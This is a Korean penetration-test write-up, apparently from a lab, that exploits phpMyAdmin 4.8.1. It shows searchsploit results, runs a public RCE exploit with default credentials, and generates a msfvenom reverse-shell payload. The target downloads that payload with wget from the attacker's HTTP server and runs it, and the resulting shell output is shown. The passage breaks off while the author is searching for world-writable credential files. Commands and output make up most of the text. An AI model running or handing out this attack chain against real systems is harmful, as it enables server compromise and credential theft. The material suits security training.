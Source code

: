 ### 취약점 진단
 phpmyadmin 4.8.1버전 취약점 확인 결과 RCE 취약점 발견
    ```sh
    searchsploit phpmyadmin 4.8.1

    ---------------------------------------------------------------------------------------
    Exploit Title                                                  |  Path
    ---------------------------------------------------------------------------------------
    phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (1)     | php/webapps/44924.txt
    phpMyAdmin 4.8.1 - (Authenticated) Local File Inclusion (2)     | php/webapps/44928.txt
    phpMyAdmin 4.8.1 - Remote Code Execution (RCE)                  | php/webapps/50457.py
    ---------------------------------------------------------------------------------------
    Shellcodes: No Results
    ```

### 호스트 초기 침투
 - RCE 취약점을 통한 공격 테스트 진행 및 개념증명 성공
    ```sh
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password whoami

    www-data
    ```
 - 개념증명이 성공 했으므로 리버스 쉘 연결을 위한 리버스 쉘 페이로드 생성 및 nc를 사용하여 리버스 쉘 연결 포트 오픈
    ```bash
    msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.0.140 LPORT=443 -f elf -o revshell.elf

    nc -lvnp 443
    ```

 - 임의의 포트를 오픈한 뒤 RCE 취약점을 사용하여 리버스 쉘 전송 및 실행
    ```sh
    python3 -m http.server 3333

    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "wget http:10.8.0.140:3333/revshell.elf -O /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "chmod +x /tmp/reverse"
    python3 50457.py 172.31.249.155 80 /phpmyadmin root password "/tmp/reverse"
    ```

 - 호스트 리버스 쉘 연결 성공
    ```sh
    listening on [any] 443 ...
    connect to [10.8.0.140] from (UNKNOWN) [172.31.249.155] 34848
    whoami;hostname;id
    www-data
    ip-172-31-249-155
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    ```

### 권한 상승
- 수동으로 호스트 점검 결과 루트 디렉토리에 퍼미션 777인 .bobbyz_creds.txt 파일 발견
    ```sh
    find / -type f -perm 777 2>/dev/null
